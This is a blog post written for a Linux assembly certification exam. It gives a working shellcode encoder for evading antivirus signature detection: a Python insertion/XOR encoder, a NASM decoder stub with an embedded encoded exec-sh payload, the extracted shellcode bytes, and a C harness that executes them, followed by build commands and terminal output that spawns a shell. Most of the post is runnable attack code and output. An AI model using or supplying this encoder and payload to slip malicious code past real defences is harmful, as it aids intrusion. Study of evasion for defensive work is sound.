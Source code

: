 
# Custom encoder for bypassing signature based detection

Malware detection techniques has improved a lot over the years. Today companies are investing in machine learning methods for detecting malware, which sounds pretty cool if you ask me. However, there is one method that has been used since the first anti-virus software, which is signature based detection.

When disassembling a program you can analyze the assembly instructions in order to understand the program from the lowest level. It's also possible from the assembly code to identify a set of unique instructions that identifies a specific program. These unique instructions form the signature. The instructions can be anything that identifies a specific and unique behaviour in the program. An example could be a decryption routine that identifies perhaps a decryption stub used for decrypting shellcode.

How do we bypass signature detections? Well, we change the signature. You either do this manually or you write an encoder which takes shellcode as input and outputs an encoded shellcode, which as zero known signatures for it. In this article, I will present a very easy and trivial encoding scheme for from AVs :)

## The Algorithm

The scheme I have chosen is a simple insertion encoder with XOR twist. Given a piece of shellcode, the encoder will insert a value between 1-255 as a prefix for each shellcode byte. This value will then be XORed with the shellcode byte. This method has some drawbacks:

- It will double the shellcode length 
- Once the shellcode has been decoded, a bunch of garbage data will exist follow1ing the shellcode. This means that if your shellcode does not return, the garbage data will be executed which leads to a segfault.

For demonstrating how bypassing signature detection looks like, this method will suffice.

## The Encoder

I have chosen to write the encoder in Python because it's very easy to implement these kinds of scripts in it.

```python
import sys
import random

def encode(shellcode):
    """
    shellcode: string

    returns: string
    """
    shellcode_output = ""
    shellcode_list = []
    for i in shellcode.split("\\")[1:]:
        xor_key = random.randint(1,254)
        hex_key = hex(xor_key)
        byte = int(i.replace("x", "0x"), 16)
        shellcode_list.append(hex_key)
        shellcode_list.append(hex(xor_key ^ byte))

    return ",".join(shellcode_list)

def decode(encoded_shellcode):
    """decode()
    encoded_shellcode: string

    returns: string
    """
    shellcode_list = encoded_shellcode.split(",")
    it = iter(shellcode_list)
    decoded_shellcode = []
    for x in it:
        decoded_shellcode.append(hex(int(x, 16) ^ int(next(it), 16)))
    return ",".join(decoded_shellcode)

def main(shellcode):
    """main()
    shellcode: string
    """
    orginal_shellcode = r"{}".format(shellcode)
    new_shellcode = encode(orginal_shellcode)
    print("[+] Your encoded shellcode: ")
    print(new_shellcode)
    print("\n[+] Decoded shellcode:")
    decoded_shellcode = decode(new_shellcode)
    print(decoded_shellcode)
    assert decoded_shellcode.replace("0x","\\x").replace(",","") == orginal_shellcode.replace("\\x0", "\\x")


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 wrapper.py <shellcode>")
        sys.exit(0)

    if len(sys.argv) == 2:
        main(sys.argv[1])

```

To use the program, simply input your shellcode and receive the encoded version:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ python3 wrapper.py "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encoded shellcode:
0x77,0x8b,0x4a,0xf1,0xdb,0xc0,0x5,0x94,0xe7,0x2a,0x43,0x8b,0x93,0x78,0x73,0x7f,0x38,0x66,0xe5,0xb3,0x14,0x25,0x2d,0x33,0x6b,0xc6,0xc5,0xc4,0x56,0x95,0x8d,0x8,0x2f,0xef,0xd,0x78,0x9f,0x68,0x7a,0xb9,0xd7,0x3f,0xf5,0x1a,0xba,0x45,0x2,0xfd,0x93,0x6c,0xe3,0xc9,0xee,0xad,0x93,0xc,0xb5,0x15,0xe3,0xc1,0xe,0x42,0xbd,0xee,0xf8,0xa1,0xaf,0x7d,0x65,0xd8,0x24,0x98,0x86,0x7d,0xb1,0xfa,0xf8,0xb3,0x96,0xb7,0x2a,0xe0,0x27,0x65,0x69,0x13,0x3a,0x5c,0x55,0xc8,0x1,0x5e,0x59,0xe9,0x7a,0x9c,0xd7,0x9,0xb2,0xed,0xc5,0x8f,0xd4,0x33,0xfa,0x24

[+] Decoded shellcode:
0xfc,0xbb,0x1b,0x91,0xcd,0xc8,0xeb,0xc,0x5e,0x56,0x31,0x1e,0xad,0x1,0xc3,0x85,0xc0,0x75,0xf7,0xc3,0xe8,0xef,0xff,0xff,0xff,0x2a,0x43,0x9f,0xa0,0x22,0x4c,0x53,0x59,0xd2,0xbd,0xbc,0xfb,0x4b,0x4b,0x21,0xca,0x42,0x7a,0x66,0x9d,0x5f,0xb0,0xe6,0xde,0x5f,0x4a,0xe7,0xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$
```

The shellcode used in the example above is a simple `exec-sh` shellcode which will drop into an `sh` shell.

## Writing the decoder stub

It's time to write the decoder stub. The following is a simple program for looping through the shellcode, XORing bytes, reconstructing the original shellcode.

```asm
;-------------------------------------
;
; Author: dubs3c
;
; Purpose:
; Insertion Encoder, hide from AV :)
;
;-------------------------------------

global _start

section .text
_start:
    jmp short call_shellcode        ; jmp-call-pop method

decoder:
    pop esi                         ; Get the address of EncodedShellcode
    lea edi, [esi + 1]              ; edi points to the next byte
    xor eax, eax                    ; zero out register
    xor ebx, ebx                    ; zero out register
    xor edx, edx                    ; zero out register
    xor ecx, ecx                    ; zero out register

decode:
    mov bl, byte [esi + eax]        ; Get the byte at esi + eax
    xor bl, 0xaa                    ; XOR with 0xaa to check if we are at the end of the shellcode
    jz short EncodedShellcode       ; If we are at the end, we are done, jump to shellcode
    mov dl, byte [esi + eax]        ; Get the byte at esi + eax
    mov bl, byte [esi + eax + 1]    ; Get the byte at esi + eax + 1
    xor dl, bl                      ; XOR to get orignal shellcode byte
    mov byte [esi + ecx], dl        ; Overwrite EncodedShellcode at byte esi + ecx with the result
    add al, 2                       ; Add 2 to eax to jump to the next pair of bytes
    inc ecx                         ; increment ecx which byte to overwrite in EncodedShellcode
    jmp short decode                ; loop back to decode

call_shellcode:
    call decoder
    EncodedShellcode: db 0x1,0xfd,0xa2,0x19,0x60,0x7b,0x7d,0xec,0xac,0x61,0xac,0x64,0x31,0xda,0x2b,0x27,0xb1,0xef,0xd,0x5b,0x66,0x57,0xa5,0xbb,0xc7,0x6a,0xac,0xad,0x41,0x82,0x7a,0xff,0x5,0xc5,0xf4,0x81,0xf1,0x6,0x99,0x5a,0x54,0xbc,0xac,0x43,0x28,0xd7,0x4,0xfb,0x1b,0xe4,0x11,0x3b,0x35,0x76,0xdc,0x43,0x57,0xf7,0x4f,0x6d,0xe1,0xad,0xd7,0x84,0x6c,0x35,0x62,0xb0,0x7b,0xc6,0x7f,0xc3,0x80,0x7b,0x1f,0x54,0x45,0xe,0xa9,0x88,0x97,0x5d,0x84,0xc6,0xe9,0x93,0x6c,0xa,0x6f,0xf2,0x7a,0x25,0xe0,0x50,0x88,0x6e,0x3b,0xe5,0x56,0x9,0x6f,0x25,0xae,0x49,0xe3,0x3d,0xaa,0xaa
```

The program can be assembled with nasm:

```bash
nasm -f elf32 -o build/ass4.o ass4.nasm
ld -z execstack -N -o build/ass4 build/ass4.o
```

Because I have specified the `-N` option, the code section is now writable and we can run the executable.
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/ass4
$ whoami
dubs3c
$
```

We can also extract the shellcode and use e.g. in a stager:
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ objdump -d ./build/ass4|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"
```

The shellcode could be embedded in a somple C program that will execute the decoder program, containing our `exec-sh` shellcode.

```c
#include<stdio.h>
#include<string.h>


unsigned char shellcode[] = "\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"; 

main()
{
        printf("Shellcode length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

The program can be compiled like this:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ gcc -fno-stack-protector -z execstack shellcode.c -o build/shellcode
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/shellcode
Shellcode length:  152
$ whoami
dubs3c
$
```

That's it, happy hacking :)

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490

